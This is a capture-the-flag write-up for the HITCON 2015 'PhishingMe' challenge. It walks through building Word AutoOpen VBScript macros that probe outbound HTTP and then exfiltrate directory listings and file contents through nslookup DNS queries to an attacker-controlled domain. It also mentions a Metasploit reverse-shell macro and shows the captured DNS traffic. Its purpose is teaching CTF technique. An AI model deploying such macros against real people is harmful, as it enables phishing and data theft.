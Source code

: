 #PhishingMe - Misc 200 Problem - Writeup by Erye Hernandez (@eryeh)

###Description
```
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
```
Based on the description and problem title, the goal of this challenge is to email a malicious document to `phishing.me.hitcon.2015@gmail.com` which will somehow exfiltrate the file that contains the flag from their system. 


###Walkthrough
Given this information, the first impulse is to quickly create a malicious document using `Metasploit` (more info [here](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)). `Metasploit` automagically creates `VBScript` code and a `reverse tcp shell` payload that you just copy and paste to your Word document. This payload gives us a shell into their system so we can easily navigate and find the text file containing the flag. Despite this method working locally when we tested it, it does not solve the problem. This means that the remote system has some kind of firewall that blocks outgoing traffic. Since this is a `200 pt` problem, it makes sense that solving it would require a bit more work.


####Creating a macro in Word
Since this challenge requires using macros in a Word document to complete the challenge, we outline the steps of creating macros below. 

If using MS Word 2003, click on `Tools` then `Macros` and then finally `Macros`. 
<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2003.png" width="500">

If using MS Word 2007, click on `View` then `Macros` and thenn finally `View Macros`.
<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2007.png" width="600">

Create a macro named `AutoOpen` in the `macro` dialog box and it will launch the `Visual Basic Editor` where you can create and debug your `macros`.

<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro_dialog.png" width="400">


####So how do we exfil all the data?  

When the `reverse shell` payload route failed, we decide to find alternatives to exfiltrating data. Since `TCP port 80` is a common port that is not blocked, we first explore the possibility of getting data out using plain old `HTTP`. We use the script below to check if `outgoing` traffic on `TCP port 80` is possible.

```vb
Sub AutoOpen()
  Dim objHttp: Set objHttp = CreateObject("Microsoft.XMLHTTP")

  uri = "http://X.X.X.X/poop/"
  objHttp.Open "GET", uri, False
  objHttp.send
End Sub
```

Since we did not see any connections to our web server when we sent this script, we can safely assume that `outgoing` traffic on `TCP port 80` is also blocked. Next, we check if `DNS` traffic is blocked by using the script below.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  objShell.Exec ("%comspec% /c nslookup tun.mydomain.com")
End Sub
```

We see their server connecting to ours so this is good news! The above script also tells us that it is possible to issue command line instructions to the system via `VBScript`. We can use `DNS` requests to exfiltrate data from their system. Now, we have to figure out where the flag is located. 


####Capturing the flag
We created the `VBScript` below to help with the task of finding the flag in the remote system. Since we are using `DNS` lookup queries, we have to make sure that there are no `whitespaces` in the data that is sent as a `DNS` query so we replace `whitespaces` with an `underscore` ("_"). Although not necessary, we also replace the occurences of `periods` (".") with an `underscore`. We decide to first do a file listing of the current working directory as this would be the most logical place for the flag file to be.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  Dim objFSO: Set objFSO = CreateObject("Scripting.FileSystemObject")
  Dim objFolder: Set objFolder = objFSO.GetFolder(".")
  
  objShell.Exec ("%comspec% /c nslookup " & objFolder.Path & ".tun.mydomain.com")
  
  Set colFiles = objFolder.Files
  buff = ""
  For Each objFile In colFiles
    buff = Replace(objFile.Name, " ", "_")
    buff = Replace(buff, ".", "_")
    objShell.Exec ("%comspec% /c nslookup " & buff & ".tun.mydomain.com")
  Next
End Sub
```

Once we got our results back, we notice a file called `secret.txt`. This file sounds promising so we open the file and send the contents back through `DNS` query. Here is what the traffic looks like with the flag (`hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}`)

```
17:40:10.859126 IP ec2-54-199-14-224.ap-northeast-1.compute.amazonaws.com.24390 > ns4009839.ip-192-99-5.net.domain: 22447 [1au] AAAA? hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}.tun.mydomain.com. (93)
```

Yay! We are done! It is surprising to note however that `DNS` queries actually allow `{` and `!` characters. The final (cleaned up) macro can be found [here](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro.vbs).
